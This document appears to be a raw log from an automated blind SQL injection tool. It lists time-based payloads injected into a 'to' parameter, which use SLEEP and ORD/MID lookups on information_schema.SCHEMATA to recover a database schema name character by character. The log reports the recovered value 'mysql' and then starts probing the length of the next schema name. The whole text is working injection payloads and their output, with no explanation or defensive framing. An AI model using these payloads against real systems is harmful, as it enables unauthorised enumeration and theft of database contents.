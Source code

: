 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 1,1)=108,SLEEP(0.155797244898),SLEEP(0))}

Value: mysql



Determinating number of characters in the field: SCHEMA_NAME

{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=1,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=2,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=3,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=4,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=5,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=6,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=7,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=8,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=9,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=10,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=11,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=12,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=13,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=14,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=15,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=16,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=17,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 2,1)=18,SLEEP(0.155797244898),SLEEP(0))}
